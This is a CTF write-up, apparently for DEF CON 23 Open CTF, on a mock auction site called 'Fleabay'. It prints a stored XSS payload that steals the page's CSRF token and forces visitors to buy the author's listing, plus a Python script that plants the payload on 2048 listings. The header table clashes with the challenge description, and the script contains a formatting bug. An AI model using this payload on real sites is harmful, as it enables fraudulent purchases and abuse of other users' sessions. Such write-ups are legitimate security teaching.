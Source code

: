 # CTF write-up: defcon23 open CTF No.37
Challenge | Tags | Point | Author
--- | --- | ---
Sanity Check | binary,exploitation,pwnable | 200 | soen

## English

### Challenge description
Fleabay 100 100 --- Fleabay has gotten really popular, and Mr. Moneybags is perusing the listings - can you sell him $100,000 worth of stuff?
10.0.66.91

### write-up
(in progress)

Auctuary this challange is very simmiller to Fleabay challange in last year.

First, access to the web page.

The web service is to sell and buy some images and exchange money.
The ame is ean a big money.
Our strategy is inject javascript code that another user would force parchasing our stuff.

1. Accessing the web.
2. Create account.
3. Regist the image for sale on it.
4. I found I was able to inject some in image url field. 
Point:
```
<img src="(image field)" />
```
To:
```
<img src=""><script>var r=new XMLHttpRequest();r.open('GET','/listing/XXX/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/XXX/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src="" />
```
XXX is image id.

5. getting authentication information from browser developer tool.
```
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"
```

6. I made auto post script.

exploit.py:
```
import urllib3 # Requires: < 1.9
import re

http = urllib3.PoolManager()
newurl = "http://10.0.66.91/listings/new/"
updateurl = "http://10.0.66.91/listing/%d/edit/"
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"

def do_():
    r = http.request_encode_body('POST', newurl, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item 1","details":"test","image_src":"test","cost":"%u" % (2**32)-1,"csrfmiddlewaretoken":csrftoken,"submit":"Submit"},encode_multipart=False, redirect=False)
    for urllike in re.finditer(r'http://10.0.66.91/listing/([0-9]+)/', r.headers['location']):
        num = int(urllike.group(1))
        r = http.request_encode_body('POST', updateurl % num, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item %d" % num,"details":"test","image_src":"\"><script>var r=new XMLHttpRequest();r.open('GET','/listing/%(num)d/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/%(num)d/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src=\"" % dict(num=num),"cost":"%u" % 4294967295 ,"csrfmiddlewaretoken":csrftoken,"Referer":updateurl % num}, encode_multipart=False, redirect=False)
        return num
    else:
        raise ValueError("unexpected response: %d: %s" % (r.status, r.data.decode('utf-8')))

for i in range(2048):
    num = do_()
    print("[+] placed XSS trap on item #%d" % num)
```

7. run the script and wait.

8. login to page with browser.

9. found the key on the page.


